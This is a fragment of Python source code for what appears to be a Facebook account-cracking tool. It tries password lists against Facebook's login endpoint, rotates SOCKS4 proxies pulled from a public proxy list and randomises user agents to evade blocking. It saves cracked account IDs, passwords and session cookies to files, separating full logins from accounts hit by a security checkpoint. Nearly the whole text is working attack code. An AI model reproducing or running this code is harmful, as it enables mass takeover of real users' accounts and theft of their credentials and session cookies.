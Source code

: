 			links = rc([f"https://{url}/login/device-based/validate-password/?shbl=0&locale2={rdm}"])
			CYXIEON_XR = ses.post(links,headers=head, data=date, cookies={'cookie': koki}, allow_redirects=False,proxies=proxs)
			if "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=CYXIEON_XR.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				kukis = kuki.replace(f'c_user={idf};datr','sb')
				print(f"{kun}╭────────────────────────────╮{puti}")
				tree = Tree("")
				tree.add(f"\r{hijo}{idf}{puti}").add(f"{hijo}{pw}{puti}").add(f"{mer}{tahun(idf)}{puti}")
				tree.add(f"{hijo}{kuki}{puti}").add(f"{mer}{ua}{puti}")
				print(f"{kun}╰────────────────────────────╯{puti}")
				prints(tree)
				open('CYXIEON-OK/'+'CYXIEON-OK.txt','a').write(idf+'|'+pw+'|'+'\n')
				open('CYXIEON-OK/'+'CYXIEON-WhithCookies.txt','a').write(idf+'|'+pw+'|'+kuki+'|''\n')
				break			
			elif "checkpoint" in CYXIEON_XR.cookies.get_dict().keys():
				print(f"{kun}╭────────────────────────────╮{puti}")
				tree = Tree("")
				tree.add(f"\r{kun}{idf}{puti}").add(f"{kun}{pw}{puti}")
				tree.add(f"{mer}{tahun(idf)}{puti}").add(f"{mer}{ua}{puti}")
				print(f"{kun}╰────────────────────────────╯{puti}")
				prints(tree)
				open('CYXIEON-CP/'+'CYXIEON-CP.txt','a').write(idf+'|'+pw+'|'+'\n')
				akune.append(idf+'|'+pw)
				ceker(idf,pw)
				cp+=1
				break	
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
	
#----------[ METODE-REGULER ]----------#	
def crackreguler(idf,pwx,url):
	global loop,ok,cp
	ses = requests.Session()
	rr = random.randint
	rc = random.choice
	emot = rc(["😝","😜","🤪"])
	prog.update(des,description=f"\r {emot} REGULER (%s OK : {ok} %s) (%s CP : {cp} %s) (%s {loop} %s) "%(hijo,puti,kun,puti,hijo,puti))
	prog.advance(des)
	for pw in pwx:
		try:
			proxs = requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
			open('socksku.txt','w').write(proxs)
			nip = rc(proxs)
			proxs = {'http': 'socks4://'+nip}
			ua = rc(ugen)
			ua2 = rc(["Mozilla/5.0 (iPhone; CPU iPhone OS 13_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.1 Mobile/15E148 Safari/604.1","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 Edg/91.0.864.59"])
			ver = rc(["en-GB,en-US;q=0.9","ms-MY,ms;q=0.9","fr_FR,fr;q=0.9","jv-ID,jv;q=0.9"])  		
			ses.headers.update({"Host":url,
			"upgrade-insecure-requests":"1",
			"user-agent":ua,
			"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9",